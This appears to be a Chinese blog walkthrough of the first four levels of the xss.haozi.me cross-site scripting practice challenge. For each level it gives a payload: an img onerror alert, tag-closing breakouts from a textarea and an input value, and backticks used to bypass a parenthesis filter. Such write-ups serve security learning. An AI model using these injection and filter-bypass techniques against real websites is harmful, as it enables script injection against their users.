 ```yaml
---
title: xss.haozi.me
date: 2022-04-04
cover: https://b2.kuibu.net/file/imgdisk/imgs/2022/04/ca59ea703bbff18d.png
tags:
 - 闯关
categories:
 - 闯关挑战
---
```


# xss.haozi.me
  
  今天带来一个新的xss闯关，加油加油！

<a href = "https://xss.haozi.me/" target="_blank">https://xss.haozi.me/</a>

## 第零关

  这一关其实没什么好讲的，没有过滤任何东西，直接使用任何语句绕过即可。

  `<img src = 'tupian' onerror="alert(1)">`


<img src = 'https://b2.kuibu.net/file/imgdisk/imgs/2022/04/5e3a73e69c893ff9.png' />

## 第一关
  
  进去可以看到我们的注入点处于textarea标签中，所以闭合这个标签就可以了。


  `</textarea><img src = "x" onerror="alert(1)"><textarea>`

<img src = 'https://b2.kuibu.net/file/imgdisk/imgs/2022/04/66c686c9cbda8ade.png' />


## 第二关

  这题和上一题考点差不多，可以看到我们的注入点在" value=“ "之后，所以使用“ "> ” 将input标签闭合即可。

  `"><img src="x" onerror="alert(1)">`

  <img src = 'https://b2.kuibu.net/file/imgdisk/imgs/2022/04/dffef1f41ce5f65f.png' />


## 第三关

  看旁边的代码发现括号和方括号被过滤了，这个简单，直接使用" `` "代替即可。

  `<img src = 'x' onerror="alert`1`">`
